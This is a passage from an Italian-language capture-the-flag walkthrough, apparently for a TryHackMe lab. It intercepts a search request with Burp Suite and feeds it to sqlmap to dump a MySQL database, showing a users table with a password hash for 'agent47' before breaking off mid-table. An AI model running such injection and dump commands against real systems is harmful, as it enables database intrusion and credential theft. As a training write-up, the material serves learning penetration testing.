 Utilizzando la pagina a cui abbiamo effettuato l'accesso in precedenza, indirizzeremo SQLMap alla funzione di ricerca delle recensioni dei giochi.  

Per prima cosa dobbiamo intercettare una richiesta effettuata alla funzione di ricerca tramite [BurpSuite](https://tryhackme.com/room/learnburp) .

```
nano request.txt
```
```
POST /portal.php HTTP/1.1
Host: 10.10.24.247
User-Agent: J
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.24.247
Connection: keep-alive
Referer: http://10.10.24.247/portal.php
Cookie: PHPSESSID=5ccuotbf3jjema6lptfph63p96
Upgrade-Insecure-Requests: 1

searchitem=test
```
Salviamo questa richiesta in un file di testo. Possiamo quindi passarla a SQLMap per utilizzare la nostra sessione utente autenticata.
```
sqlmap -r request.txt --dbms=mysql --dump
```
**-r** utilizza la richiesta intercettata salvata in precedenza  
**--dbms** indica a SQLMap che tipo di sistema di gestione del database è  
**--dump** tenta di restituire l'intero database

SQLMap proverà ora diversi metodi e identificherà quello vulnerabile. Alla fine, restituirà il database.
```
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[06:57:53] [INFO] table 'db.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.24.247/dump/db/users.csv'
[06:57:53] [INFO] fetching columns for table 'post' in database 'db'
[06:57:53] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[06:57:53] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                           |
+----+--------------------------------+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```